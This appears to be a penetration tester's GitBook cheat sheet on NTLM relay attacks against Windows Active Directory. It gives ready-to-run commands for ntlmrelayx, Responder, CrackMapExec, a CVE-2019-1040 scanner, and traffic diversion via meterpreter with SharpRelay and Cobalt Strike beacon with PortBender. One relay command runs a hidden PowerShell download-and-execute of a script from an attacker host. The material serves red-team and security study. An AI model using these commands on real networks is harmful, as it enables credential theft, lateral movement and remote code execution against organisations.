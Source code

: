 # NTLM Relay

- [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
- [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
- [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
- [https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/](https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/)
- [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
- [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
- [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
- [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
- [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
- [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
- [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
- [https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay)
- [https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)
- [https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay](https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay)
- [https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html](https://offsec.almond.consulting/ldap-relays-for-initial-foothold-in-dire-situations.html)
- [https://labs.nettitude.com/blog/network-relaying-abuse-windows-domain/](https://labs.nettitude.com/blog/network-relaying-abuse-windows-domain/)
- [[PDF] Coercions and Relays – The First Cred is the Deepest (Gabriel Prudhomme)](https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf)

{% embed url="https://youtu.be/b0lLxLJKaRs" %}

{% file src="/.gitbook/assets/Lateral Movement using Credentials Relaying (taso_x).pdf" %}

Generate relay list with CME and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```

Relay & catch hashes (via [multi-relay](https://www.thehacker.recipes/ad/movement/ntlm/relay#tips-and-tricks)):

```
$ sudo smbserver.py -smb2support -port 8445 share `pwd`
$ sudo ntlmrelayx.py -smb2support --no-http-server --no-wcf-server -tf targets.txt
$ cat targets.txt
smb://10.10.13.37
smb://127.0.0.1:8445
```

{% hint style="info" %}
The easier way though is to use the combination of `-of/--output-file hashes.txt -ntlmchallenge 1122334455667788` options to save the hash with a predefined challenge to a file while relaying.
{% endhint %}

Relay NTLM2 responses obtained from Responder's proxy authentication (Responder's HTTP must be `Off`):

{% embed url="https://twitter.com/theluemmel/status/1455099572305416197" %}

```
$ ntlmrelayx.py -tf relay.txt -smb2support --no-wcf-server -wh attacker.local --http-port 3128 -socks
$ sudo ./Responder.py -I eth0 -frd -v -P
```




## CVE-2019-1040-scanner

- [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```




## Relaying on Windows



### meterpreter + SharpRelay

- [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)
- [https://github.com/pkb1s/SharpRelay](https://github.com/pkb1s/SharpRelay)

Divert incoming SMB traffic from Victim to Attacker's local 445 port through an elevated meterpreter session and relay it to Target via MSF SOCKS server.

1\. Add a static route to the Target through the 1st meterpreter session:

```
meterpreter > route add 192.168.1.11/32 1
```

2\. Start MSF SOCKS server:

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

3\. Forward a reverse port 8445 on Victim to local port 445 on Attacker and start diverting incoming SMB traffic on Victim to Victim's local 8445 port:

```
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > cd C:\\Windows\\System32\\drivers
meterpreter > upload /home/snovvcrash/www/WinDivert64.sys
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/SharpRelay.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS relaysvc "C:\Windows\System32\drivers\WinDivert64.sys" 445 8445
msf post(windows/manage/execute_dotnet_assembly) > run
```

4\. Relay the diverted traffic to Target through SOCKS:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support
```

{% hint style="warning" %}
When ran once, the driver must be unloaded or the host rebooted before trying again. The fake service can be deleted with a PowerShell command:

```
PS > (sc.exe stop relaysvc) -and (sc.exe delete relaysvc)
```
{% endhint %}



### beacon + PortBender

- [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
- [https://rastamouse.me/ntlm-relaying-via-cobalt-strike/](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

Set SOCKS server & port forwarding, upload WinDivert driver and configure redirection with PortBender:

```
beacon> socks 1080
beacon> rportfwd 8445 127.0.0.1 445
beacon> cd C:\Windows\System32\drivers
beacon> upload /home/snovvcrash/www/WinDivert64.sys
beacon> PortBender redirect 445 8445
```

Relay the planet:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex(new-object net.webclient).downloadstring(\"http://10.10.13.37:8080/pwn.ps1\")"'
```

Stop PortBender:

```
beacon> jobs
beacon> jobkill <JID>
beacon> kill <PID>
```

